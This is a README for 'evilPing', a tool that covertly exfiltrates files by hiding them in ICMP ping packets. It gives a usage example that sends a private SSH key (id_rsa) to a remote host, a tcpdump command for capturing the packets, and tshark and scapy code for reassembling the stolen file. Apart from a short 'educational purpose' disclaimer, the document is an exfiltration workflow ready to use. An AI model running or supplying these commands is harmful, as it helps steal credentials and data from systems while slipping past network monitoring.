

# evilPing
Sending file through ICMP packet using PING

This tools will convert the data into hexadecimal and send through ICMP packet in each block. if the connection not stable or any packet failed to send, the script will retry sending the failed data first before go to the next block data




### Usage
```
Usage: ./evilPing.sh <file> <host>
```
Example
```
./evilPing.sh id_rsa 192.168.1.2
```

### Listening server for receiving ICMP packet using TCPdump
```
sudo tcpdump -i any -s 0 'icmp' -w evilPing-received.pcap
```

### Extract data with tshark
```
tshark -r evilPing-received.pcap -T fields -e data -Y ip.src==192.168.1.1 -Y icmp.type==8 | cut -c 17-48 | xxd -r -p
```

### Extract data with scapy
```
#!/usr/bin/env python3

from scapy.all import *

src_ip = '192.168.56.1'
packet = rdpcap('evilPing-received.pcap')
data = b''

for pkt in packet:
    if pkt[IP].src == src_ip and pkt[ICMP].type == 8:
        data += pkt[Raw].load[16:32]

with open('output', 'wb') as w:
    w.write(data)
```

#### legal disclaimer
This tools is for educational purpose only, usage of evilPing for attacking targets without prior mutual consent is illegal. Developers assume no liability and are not responsible for any misuse or damage caused by this program
